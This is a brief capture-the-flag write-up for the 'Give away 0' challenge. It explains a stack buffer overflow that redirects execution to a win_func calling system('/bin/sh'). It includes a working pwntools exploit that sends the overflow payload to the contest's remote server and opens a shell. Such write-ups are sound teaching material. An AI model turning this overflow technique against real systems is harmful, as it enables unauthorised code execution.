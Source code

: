 # Give away 0

Simple buffer overflow. There is a function win\_func that calls system on a global variable. We can read this global variable and find it's value is `/bin/sh` - it pops a shell for us.

In the function vuln, it reads `0x32` bytes into a buffer at `rbp-0x20`. This allows us to overwrite the return address with the address of winfunc.

So our exploit is `0x28 bytes of junk + address of win_func`.

```python
from pwn import *
NUM_TO_RET = 0x20 + 8
e = ELF("./0give")
#p = e.process()
p = remote('sharkyctf.xyz', 20333)
payload = b'A' * NUM_TO_RET + p64(e.symbols['win_func'])
p.sendline(payload)
p.interactive()
```

